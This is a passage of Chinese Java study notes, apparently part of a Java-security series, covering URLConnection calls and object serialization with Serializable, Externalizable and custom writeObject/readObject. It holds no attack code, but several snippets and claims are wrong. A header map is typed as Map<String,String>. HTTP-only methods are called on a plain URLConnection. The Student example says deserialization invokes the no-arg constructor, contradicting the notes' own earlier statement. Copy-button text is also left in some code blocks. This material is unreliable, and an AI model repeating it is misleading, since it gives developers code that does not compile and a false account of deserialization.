        while((size = ins.read(bytes)) > 0)
            bos.write(bytes,0,size);
        System.out.println(bos.toString()); 
        参照：https://www.anquanke.com/post/id/221159#h3-3
```

#### URL connection：

Java URLConnection 是 Java 网络编程中的一个重要类，它提供了一种简单的方式来访问和操作 URL。它是一个标准的 Java IO 类，用于在 Java 中进行网络通信。

URLConnection 类的实例表示一个 URL 连接，可以使用该连接读取和写入数据，以及设置请求和响应头。使用 URLConnection 类的最大优点是它可以用于各种不同类型的协议，例如 HTTP、FTP、SMTP 等。

以下是一些常见的 URLConnection 操作：

1. 打开连接并获取输入流

```java
URL url = new URL("http://example.com");  
URLConnection connection = url.openConnection();  
InputStream inputStream = connection.getInputStream();
```

2.设置请求头

```java
connection.setRequestProperty("User-Agent", "Mozilla/5.0");  
connection.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
```

3.获取响应头

```java
java复制代码

Map<String, String> responseHeaders = connection.getHeaderFields();
```

4.获取响应状态码

```java
java复制代码

int responseCode = connection.getResponseCode();
```

5.获取响应消息

```java
java复制代码

String responseMessage = connection.getResponseMessage();
```

6.关闭连接和输入流

```java
inputStream.close();  
connection.disconnect();
```

除了以上操作外，URLConnection 类还提供了其他一些有用的方法，例如：setDoInput(boolean doInput)、setDoOutput(boolean doOutput)、setUseCaches(boolean useCaches) 等。这些方法可以用于控制连接的行为。

大概描述一下这个过程，首先使用URL建立一个对象，调用`url`对象中的`openConnection`来获取一个`URLConnection`的实例，然后通过在`URLConnection`设置各种请求参数以及一些配置，在使用其中的`connect`方法来发起请求，然后在调用`getInputStream`来获请求的响应流。 这是一个基本的请求到响应的过程。

#### SSRF：


## Java类序列化：

Java类序列化是指将一个对象的状态信息转换为字节流，以便在网络上传输或将其持久化到本地文件系统中。这个过程称为序列化，而具有这个特性的类称为可序列化类。

序列化的概念非常简单，但是它使得对象可以在不同的 JVM、不同的计算机之间传递和保存。当我们需要从网络上接收一个对象或者保存对象的状态时，我们只需要读取字节流，然后反序列化就可以恢复对象的状态。

要使一个 Java 类可序列化，我们需要让这个类实现 Serializable 接口，这个接口没有任何方法，只是一个标记接口。

下面是一个简单的 Java 类序列化的例子：

首先，我们创建一个实现了 Serializable 接口的类：

```java
import java.io.Serializable;  
  
public class Person implements Serializable {  
    private String name;  
    private int age;  
  
    public Person(String name, int age) {  
        this.name = name;  
        this.age = age;  
    }  
  
    public String getName() {  
        return name;  
    }  
  
    public int getAge() {  
        return age;  
    }  
}
```

然后，我们可以使用 ObjectOutputStream 将对象序列化为字节流：

```java
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
  
public class SerializeExample {  
    public static void main(String[] args) {  
        Person person = new Person("Alice", 20);  
        try {  
            FileOutputStream fileOutputStream = new FileOutputStream("person.ser");  
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);  
            //fileoutputstream也可以直接写为：new FileOutputStream("person.ser")
            objectOutputStream.writeObject(person);  
            objectOutputStream.close();  
            System.out.println("Person object is serialized");  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

反过来，我们可以使用 ObjectInputStream 从字节流中反序列化对象：

```java
import java.io.FileInputStream;  
import java.io.ObjectInputStream;  
  
public class DeserializeExample {  
    public static void main(String[] args) {  
        Person person = null;  
        try {  
            FileInputStream fileInputStream = new FileInputStream("person.ser");  
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);  
            person = (Person) objectInputStream.readObject();  
            objectInputStream.close();  
            System.out.println("Person object is deserialized");  
        } catch (Exception e) {  
            e.printStackTrace();  
        } finally {  
            if (person != null) {  
                System.out.println("Name: " + person.getName());  
                System.out.println("Age: " + person.getAge());  
            }  
        }  
    }  
}
```

#### 序列化代码示例：

```
javabean：
package myJavaSecurity;

import java.io.Serializable;

public class javaUnSerializeBean implements Serializable {

    private String name;
    private int age;

    public javaUnSerializeBean(String name,int age){
        this.age=age;
        this.name=name;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}

```

```
package myJavaSecurity;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class javaUnSerialize {

    public static void main(String[] args) throws IOException {

        javaUnSerializeBean person=new javaUnSerializeBean("lisa",18);
        FileOutputStream fos=new FileOutputStream("lisa.ser");//写到当前目录下一个lisa.ser，ser表示反序列化文件
        ObjectOutputStream oos=new ObjectOutputStream(fos);//fos也可以写为new FilerOutputStream（“lisa.ser”)
        oos.writeObject(person);//writeObject是序列化对象
        fos.close();
    }
```


#### 反序列化代码示例：

```java
package myJavaSecurity;

import java.io.*;

public class javaUnSerialize {

    public static void main(String[] args) throws IOException, ClassNotFoundException {

        //反序列化：
        javaUnSerializeBean person=null;//先创建一个空对象，用于接受反序列化之后的对象
        FileInputStream fis=new FileInputStream("lisa.ser");//跟一个要被反序列化的文件位置
        ObjectInputStream ois=new ObjectInputStream(fis);
        person=(javaUnSerializeBean) ois.readObject();//反序列化字节流然后用一个对象接受
        fis.close();
        System.out.println(person.getAge());
        System.out.println(person.getName());

    }

}
```


#### 序列化和反序列化：

Java序列化和反序列化是Java平台上的两个重要概念，主要用于处理对象的存储和传输。

**序列化是指将一个对象的状态信息转换为字节流的过程**，这个过程主要被用于将对象的状态信息存储到文件或者数据库中，或者通过网络将对象传输到另一个运行Java虚拟机的系统。在序列化过程中，对象被转换成一个线性字节流，这个字节流可以存储在文件或者数据库中，也可以通过网络传输。序列化的主要目的是为了**实现对象的持久化和对象的传输**。

**反序列化是指将字节流转换回原来的对象**，这个过程与序列化相反。在反序列化过程中，Java虚拟机从字节流中读取对象的属性和方法等信息，然后创建一个新的对象，并将这些属性值复制到新对象的成员变量中。如果序列化的对象发生了改变，那么反序列化出来的对象也会相应地改变。反序列化的主要目的是为了**重新构造对象的状态信息。**

Java提供了一组序列化和反序列化的API，用于实现Java对象的持久化和对象的传输。这些API包括ObjectOutputStream、ObjectInputStream、Serializable等类和接口。其中，**ObjectOutputStream类用于将对象序列化为字节流，而ObjectInputStream类用于从字节流中反序列化出对象。Serializable接口则是一个标记接口，用于指示一个类可以被序列化。**

在Java中实现对象反序列化非常简单，实现`java.io.Serializable(内部序列化)`或`java.io.Externalizable(外部序列化)`接口即可被序列化，其中`java.io.Externalizable`接口只是实现了`java.io.Serializable`接口。

反序列化类对象时有如下限制：

1. 被反序列化的类必须存在。
2. `serialVersionUID`值必须一致。

除此之外，**反序列化类对象是不会调用该类构造方法**的，因为在反序列化创建类实例时使用了`sun.reflect.ReflectionFactory.newConstructorForSerialization`创建了一个反序列化专用的`Constructor(反射构造方法对象)`，使用这个特殊的`Constructor`可以绕过构造方法创建类实例(前面章节讲`sun.misc.Unsafe` 的时候我们提到了使用`allocateInstance`方法也可以实现绕过构造方法创建类实例)。

#### ObjectInputStream、ObjectOutputStream

`java.io.ObjectOutputStream`类最核心的方法是`writeObject`方法，即序列化类对象。

`java.io.ObjectInputStream`类最核心的功能是`readObject`方法，即反序列化类对象。

所以，只需借助`ObjectInputStream`和`ObjectOutputStream`类我们就可以实现类的序列化和反序列化功能了。

#### java.io.Serializable(内部序列化)：

`java.io.Serializable`是Java中的一个接口，它用于指示一个对象可以被序列化。这个接口本身没有任何方法，它只是一个标记接口，用于告诉Java虚拟机这个类的对象可以被序列化和反序列化。

当一个对象被序列化时，它的状态信息被转换为字节流，这个字节流可以存储到文件或者数据库中，也可以通过网络传输到另一个运行Java虚拟机的系统。在反序列化过程中，字节流被转换回原来的对象，这个过程与序列化相反。

在Java中，要使一个类可序列化，只需要让这个类实现`java.io.Serializable`接口即可。实现这个接口后，Java虚拟机会认为这个类的对象可以被序列化和反序列化。

需要注意的是，如果一个类包含不可序列化的成员变量，那么这个类也无法被序列化。在序列化过程中，Java虚拟机会检查每个成员变量是否可序列化，如果不可序列化，则会抛出`NotSerializableException`异常。

总之，`java.io.Serializable`是Java中的一个标记接口，用于指示一个类可以被序列化和反序列化。实现这个接口可以让Java对象在网络上传输或者持久化到本地文件系统中。

#### Externalizable（外部序列化）：

`java.io.Externalizable`是Java中的一个接口，它扩展了`java.io.Serializable`接口，提供了更灵活的序列化和反序列化机制。相比于`Serializable`，`Externalizable`接口提供了更多的控制权，允许开发者在序列化和反序列化过程中进行自定义操作。

`Externalizable`接口有两个方法：`writeExternal()`和`readExternal()`。`writeExternal()`方法用于将对象的状态信息**写入输出流**，而`readExternal()`方法用于**从输入流中读取对象的状态信息并构造对象**。这两个方法允许开发者在序列化和反序列化过程中进行自定义操作，比如对数据进行校验、转换等。

下面是一个简单的示例，演示了如何使用`Externalizable`接口实现自定义的序列化和反序列化：

```java
import java.io.*;  
  
public class Person implements Externalizable {  
    private String name;  
    private int age;  
  
    public Person() {}  
  
    public Person(String name, int age) {  
        this.name = name;  
        this.age = age;  
    }  
  
    @Override  
    public void writeExternal(ObjectOutput out) throws IOException {  
        out.writeUTF(name);  
        out.writeInt(age);  
    }  
  
    @Override  
    public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {  
        name = in.readUTF();  
        age = in.readInt();  
    }  
}
```

在上面的示例中，我们定义了一个名为`Person`的类，它实现了`Externalizable`接口。在`writeExternal()`方法中，我们将对象的属性`name`和`age`写入输出流；在`readExternal()`方法中，我们从输入流中读取属性值并设置给对象的成员变量。这样，我们就可以通过序列化和反序列化操作来保存和恢复对象的状态信息。

需要注意的是，如果一个类实现了`Externalizable`接口，那么在反序列化过程中，必须使用该类的`readExternal()`方法来构造对象，而不能使用默认的构造方法。否则会抛出`InvalidClassException`异常。


核心逻辑其实就是使用`ObjectOutputStream`类的`writeObject`方法序列化`DeserializationTest`类，使用`ObjectInputStream`类的`readObject`方法反序列化`DeserializationTest`类

简化后的代码片段如下：

```
// 序列化DeserializationTest类
ObjectOutputStream out = new ObjectOutputStream(baos);
out.writeObject(t);

// 反序列化输入流数据为DeserializationTest对象
ObjectInputStream in = new ObjectInputStream(bais);
DeserializationTest test = (DeserializationTest) in.readObject();
```


#### 使用反序列化方式创建类实例：

使用反序列化方式创建类实例是Java中一种常见的对象恢复方式。当一个对象被序列化并保存在文件中或网络传输中后，可以通过反序列化将其恢复为原始对象状态。

在Java中，如果一个类实现了Serializable接口，那么它就可以被序列化和反序列化。要使用反序列化方式创建类实例，需要使用ObjectInputStream类提供的readObject()方法从输入流中读取对象数据，并调用无参构造函数来创建对象实例。

下面是一个简单的示例代码，演示了如何使用反序列化方式创建类实例：

```java
import java.io.*;  
  
public class Student implements Serializable {  
    private String name;  
    private int age;  
  
    public Student() {}  
  
    public Student(String name, int age) {  
        this.name = name;  
        this.age = age;  
    }  
  
    public static void main(String[] args) {  
        try {  
            // 从文件中反序列化对象  
            FileInputStream fis = new FileInputStream("student.ser");  
            ObjectInputStream ois = new ObjectInputStream(fis);  
            Student student = (Student) ois.readObject();  
            ois.close();  
            fis.close();  
  
            // 输出对象属性值  
            System.out.println("Name: " + student.name);  
            System.out.println("Age: " + student.age);  
        } catch (IOException | ClassNotFoundException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

在上面的代码中，我们定义了一个名为Student的类，并实现了Serializable接口。然后，我们使用ObjectInputStream类的readObject()方法从文件中反序列化对象，并将其转换为Student类型。最后，我们输出对象的属性值。注意，在反序列化对象时需要使用无参构造函数来创建对象实例。

#### 自定义序列化(writeObject)和反序列化(readObject)：

在Java中，序列化和反序列化是指将对象转换为字节流和从字节流恢复为对象的过程。这个过程通常用于将对象状态持久化到文件或通过网络传输，或者从这些地方恢复对象状态。

Java提供了一个内置的序列化机制，可以轻松地将对象转换为字节流并从字节流中恢复对象。但是，有时候我们可能需要对序列化和反序列化过程进行更精细的控制，例如，只序列化对象的某些字段，或者在反序列化过程中对数据进行验证。这就是自定义序列化和反序列化的用武之地。

在Java中，我们可以通过实现Serializable接口并重写writeObject()和readObject()方法来自定义序列化和反序列化过程。

- writeObject()方法用于将对象状态转换为字节流。它接受一个ObjectOutputStream参数，可以将对象写入到输出流中。
- readObject()方法用于从字节流中恢复对象状态。它接受一个ObjectInputStream参数，可以从输入流中读取数据并构造对象。

下面是一个简单的示例代码，演示了如何使用自定义序列化和反序列化：

```java
import java.io.*;  
  
public class Person implements Serializable {  
    private String name;  
    private transient int age; // 假设我们不想将此字段序列化  
  
    public Person(String name, int age) {  
        this.name = name;  
        this.age = age;  
    }  
  
    private void writeObject(ObjectOutputStream out) throws IOException {  
        out.writeObject(name); // 序列化name字段  
        // 跳过不序列化的age字段  
    }  
  
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {  
        name = (String) in.readObject(); // 反序列化name字段  
        // 跳过不序列化的age字段  
    }  
}
```

在上面的代码中，我们定义了一个名为Person的类，并实现了Serializable接口。我们使用transient关键字标记不想序列化的字段。在writeObject()方法中，我们只序列化了name字段，而忽略了age字段。在readObject()方法中，我们只反序列化了name字段，而忽略了age字段。注意，这两个方法都是私有的，因此它们只能在Person类内部使用。

实现了`java.io.Serializable`接口的类，还可以定义如下方法(`反序列化魔术方法`)，这些方法将会在类序列化或反序列化过程中调用：

1. **`private void writeObject(ObjectOutputStream oos)`,自定义序列化。**
2. **`private void readObject(ObjectInputStream ois)`，自定义反序列化。**
3. `private void readObjectNoData()`。
4. `protected Object writeReplace()`，写入时替换对象。
5. `protected Object readResolve()`。

具体的方法名定义在`java.io.ObjectStreamClass#ObjectStreamClass(java.lang.Class<?>)`，其中方法有详细的声明。


